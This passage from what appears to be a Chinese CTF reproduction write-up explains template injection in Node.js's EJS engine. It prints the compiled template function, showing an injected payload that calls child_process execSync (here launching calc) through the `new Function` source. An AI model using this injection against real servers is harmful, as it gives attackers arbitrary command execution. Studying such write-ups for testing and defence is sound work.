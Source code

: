 [![](assets/1707954592-d0cc0473949b98fb565d65f1fc7f3957.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240202200005-9acc1aa0-c1c2-1.png)

在后面 fn 函数进行`new Function`定义的时候，src 的值中就存在我们插入的恶意代码

[![](assets/1707954592-f785685a325e0d260e70539cca5cc2c5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240202200015-a085c112-c1c2-1.png)

```bash
var __line = 1
  , __lines = "<!DOCTYPE html>\r\n<html>\r\n<head>\r\n    <meta charset=\"utf-8\">\r\n    <title></title>\r\n</head>\r\n<body>\r\n\r\n<h1><%= message%></h1>\r\n\r\n</body>\r\n</html>"
  , __filename = "D:\\webnode\\CTF 复现\\111\\index.ejs";
try {
  var __output = "";
  function __append(s) { if (s !== undefined && s !== null) __output += s }
  var __locals = (locals || {}),
a=a;global.process.mainModule.require('child_process').execSync('calc');//var __tmp2 = __locals.a=a;global.process.mainModule.require('child_process').execSync('calc');//var __tmp2;
  with (locals || {}) {
    ; __append("<!DOCTYPE html>\r\n<html>\r\n<head>\r\n    <meta charset=\"utf-8\">\r\n    <title></title>\r\n</head>\r\n<body>\r\n\r\n<h1>")
    ; __line = 9
    ; __append(escapeFn( message))
    ; __append("</h1>\r\n\r\n</body>\r\n</html>")
    ; __line = 12
  }
  return __output;
} catch (e) {
  rethrow(e, __lines, __filename, __line, escapeFn);
}
```
